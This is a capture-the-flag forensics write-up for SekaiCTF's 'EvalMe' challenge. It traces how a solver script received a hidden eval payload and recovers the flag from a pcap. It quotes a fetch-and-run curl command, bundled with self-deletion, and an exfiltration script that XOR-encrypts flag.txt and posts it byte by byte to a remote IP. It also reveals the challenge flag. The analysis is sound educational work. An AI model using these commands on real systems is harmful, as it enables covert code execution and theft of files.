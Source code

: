 # EvalMe - Forensics - SekaiCTF
## Author: Guesslemonger

### Problem
I was trying a beginner CTF challenge and successfully solved it. But it didn't give me the flag. Luckily I have this network capture. Can you investigate? It came attached with a `capture.pcapng`.

### Challenge Description
Connecting to the `chals.sekai.team` server required the user to solve 100 simple math problems under a given time. This was solved using the `evalMe.py` script.

Following its solve, there was a curl command given at the end:
```python
b'__import__("subprocess").check_output("(curl -sL https://shorturl.at/fgjvU -o extract.sh && chmod +x extract.sh && bash extract.sh && rm -f extract.sh)>/dev/null 2>&1||true",shell=True)\r#1 + 2
```

### Extract.sh
Downloading the extract.sh to our VM (`curl -sL https://shorturl.at/fgjvU -o extract.sh`), I get the following script:
```
#!/bin/bash

FLAG=$(cat flag.txt)

KEY='s3k@1_v3ry_w0w'

# Credit: https://gist.github.com/kaloprominat/8b30cda1c163038e587cee3106547a46
Asc() { printf '%d' "'$1"; }

XOREncrypt(){
    local key="$1" DataIn="$2"
    local ptr DataOut val1 val2 val3

    for (( ptr=0; ptr < ${#DataIn}; ptr++ )); do

        val1=$( Asc "${DataIn:$ptr:1}" )
        val2=$( Asc "${key:$(( ptr % ${#key} )):1}" )

        val3=$(( val1 ^ val2 ))

        DataOut+=$(printf '%02x' "$val3")

    done

    for ((i=0;i<${#DataOut};i+=2)); do
    BYTE=${DataOut:$i:2}
    curl -m 0.5 -X POST -H "Content-Type: application/json" -d "{\"data\":\"$BYTE\"}" http://35.196.65.151:30899/ &>/dev/null
    done
}

XOREncrypt $KEY $FLAG

exit 0
```

### XOR Encryption
This script reads the content of `flag.txt`, encrypts it using XOR encryption with a predefined key, and then sends the encrypted data, byte by byte, to a remote server using cURL. The server URL and endpoint seem to be `http://35.196.65.151:30899/`, and the data is likely being sent in a structured JSON format as part of the POST request.

### pcap Analysis
This is where the pcap file comes in. It contains the data sent via that POST command. So, filtering by: `ip.dst ==35.196.65.151 && http.request.method == POST`, I get 51 packets that contain the bytes that were sent as seen below:


[![alt text]([https://github.com/triciadang/CTF/SekaiCTF/evalMe/evalMeScreenshot.jpg?raw=true])](https://github.com/triciadang/CTF/blob/main/SekaiCTF/evalMe/evalMeScreenshot.jpg)

I exported all of the bytes into a txt file using Wireshark.

### Decryption of the Data
I then created a script that reversed the encryption for each byte:

```
#!/bin/bash
KEY='s3k@1_v3ry_w0w'

Asc() {
    printf '%d' "'$1"
}

XORDecrypt() {
    local key="$1" DataIn="$2"
    local bytes=($DataIn)

    for (( i = 0; i < ${#bytes[@]}; i++ )); do
        val3=$(printf '%d' "0x${bytes[i]}")

        # Adjusted key indexing for both uppercase and lowercase characters
        val2=$( Asc "${key:$(( i % ${#key} )):1}" )

        val1=$(( val3 ^ val2 ))

        DataOut+=$(printf '\\x%02x' "$val1")
    done

    echo -ne "$DataOut"
}

EncryptedData=$(<encrypted.txt)
DecryptedData=$(XORDecrypt "$KEY" "$EncryptedData")

echo -ne "$DecryptedData"
```
Running it against the exported bytes, I retrieved the flag: `SEKAI{3v4l_g0_8rrrr_8rrrrrrr_8rrrrrrrrrrr_!!!_8483}`
